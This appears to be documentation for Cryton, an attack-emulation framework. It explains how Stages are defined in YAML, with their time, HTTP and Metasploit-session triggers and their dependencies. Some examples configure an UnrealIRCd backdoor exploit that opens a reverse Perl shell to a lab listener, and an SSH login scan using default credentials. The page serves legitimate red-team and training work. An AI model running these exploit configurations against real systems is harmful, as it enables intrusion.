

A stage is a unit defined by a target and its trigger (for example time of start). It contains a list of attack 
[Steps](step.md) that are related to each other.



Example of defining Stage using YAML:
```yaml
name: my-stage
meta:
  description: This is an example description
  ...
trigger_type: delta
trigger_args:
minutes: 5
steps:
  ...
depends_on:
  - previous-stage

```

To better understand what each argument means and defines, here is a short description:  

- **name** - Sets the name of the Stage, which is mainly used to define its purpose (**must be unique** across the Plan).
- **meta** - An undefined dictionary containing metadata. The `description` parameter is just an example, you can define your own.
- **trigger_type** - Type of the trigger to be used. For more details see [triggers](#triggers).
- **trigger_args** - Dictionary arguments, that are specific for each type of trigger. For more details see [triggers](#triggers).
- **steps** - List of related [Steps](step.md) that will be executed during the Stage's execution.
- **depends_on** - If the Stage depends on other Stages' actions, we can tell the Stage to wait until the other Stages are finished. 
For more details see [dependencies](#dependencies).

## Triggers

### Delta
Schedule execution for a specific time after the plan start, e.g. `minutes: 30`.

#### Examples
```yaml
trigger_type: delta
trigger_args:
  hours: 0  # Wait for x hours.
  minutes: 0  # Wait for x minutes.
  seconds: 0  # Wait for x seconds.
```

### DateTime
Schedule execution for a specific date and time after the plan started.

**Trigger arguments:**

**Notice:** One argument from the Date and Time part of arguments (every argument except `timezone`) is required. Besides that, arguments are optional and their default values are used in their absence.

| Argument | Description                                                                                                                                       | Default                                                   |
|----------|---------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------|
| timezone | Timezone for DateTime trigger. List of available timezones [here](https://en.wikipedia.org/wiki/List_of_tz_database_time_zones){target="_blank"}. | UTC                                                       |
| year     | Year in which stage should be executed.                                                                                                           | The year of the plan execution in the specified timezone  |
| month    | Month in which stage should be executed.                                                                                                          | The month of the plan execution in the specified timezone |
| day      | Day in which stage should be executed.                                                                                                            | The day of the plan execution in the specified timezone   |
| hour     | Hour in which stage should be executed.                                                                                                           | 00                                                        |
| minute   | Minute in which stage should be executed.                                                                                                         | 00                                                        |
| second   | Second in which stage should be executed.                                                                                                         | 00                                                        |


#### Examples
```yaml
# This stage would be executed on 2022-01-01 08:20:00 in Europe/Prague timezone
trigger_type: datetime
trigger_args:
  timezone: Europe/Prague
  year: 2022
  month: 1
  day: 1
  hour: 8
  minute: 20
  second: 00
```

```yaml
# This stage would be executed at 16:00 UTC on the day of the plan execution
trigger_type: datetime
trigger_args:
  hour: 16
```

### HTTP listener
The stage will be executed on specific data received in the HTTP request (GET/POST) on the listener.
An example can be found [here](https://gitlab.ics.muni.cz/cryton/cryton-core/-/blob/stable/1/examples/http-trigger-example/template.yml).

```yaml
trigger_type: HTTPListener
trigger_args:
  host: localhost  # Address of the listener from the Worker's perspective.
  port: 8082  # Port of the listener from the Worker's perspective.
  routes:  # List of routes the listener will check for requests.
    - path: /index  # Request's path.
      method: GET   # Request's allowed method.
      parameters:  # Request's required parameters.
        - name: parameter  # Parameter's name.
          value: value  # Parameter's value.
```

### MSF listener
The stage will be executed when a session with the user-defined arguments is returned from Worker. Once the session is saved, 
it can be used in a Step with `use_named_session: my-stage-name_session`, where `my-stage-name` is the Stage's name.  
An example can be found [here](https://gitlab.ics.muni.cz/cryton/cryton-core/-/blob/stable/1/examples/msf-trigger-example/template.yml).

The only downside is that it doesn't support the [output sharing](step.md#output-sharing) feature.

Identifiers are arguments that can be used to identify an MSF session that we are waiting for to trigger the Stage.  
By default, the MSFTrigger will try to find a match using the `via_exploit` and `via_payload` parameters based on the used MSF module and payload. You can override this behavior using the `indentifiers` parameter.  
Since the values in identifiers can be substrings. You can use `handler` to match `exploit/multi/handler`.
```yaml
trigger_type: MSFListener
trigger_args:
  identifiers: # Optional
    type: shell
    tunnel_local: 192.168.56.50:4444
    tunnel_peer: 192.168.56.51:35380
    via_exploit: exploit/unix/irc/unreal_ircd_3281_backdoor
    via_payload: payload/cmd/unix/reverse_perl
    desc: Command shell
    info: ''
    workspace: 'false'
    session_host: 192.168.56.50
    session_port: '4444'
    target_host: ''
    username: vagrant
    uuid: o3mnfksh
    exploit_uuid: vkzl8sib
    routes: ''
    arch: python
  exploit: unix/irc/unreal_ircd_3281_backdoor  # Exploit to use.
  exploit_arguments:  # Arguments that will be passed to the exploit.
    RHOST: 192.168.56.51
    RPORT: 6697
  payload: cmd/unix/reverse_perl  # Payload to use.
  payload_arguments:  # Arguments that will be passed to the payload.
    LHOST: 192.168.56.50
    LPORT: 4444

```

```yaml
trigger_type: MSFListener
trigger_args:
  identifiers:
    via_exploit: auxiliary/scanner/ssh/ssh_login
    username: vagrant
  auxiliary: scanner/ssh/ssh_login  # Auxiliary module to use.
  auxiliary_arguments:  # Arguments that will be passed to the auxiliary module.
    RHOSTS: 192.168.56.51
    USERNAME: vagrant
    PASSWORD: vagrant

```

## Dependencies
Creating time-based triggers can be limiting, since the Stage itself can take more time than expected. To ensure that 
the Stages will execute in the correct order, you can choose to check if some other Stage has already 
finished, before its execution. All you have to do is define the `depends_on` argument. 

This way you can ensure that the sessions and gathered output from other Stages are available.

```yaml
name: stage-name
depends_on:
- other-stage

```
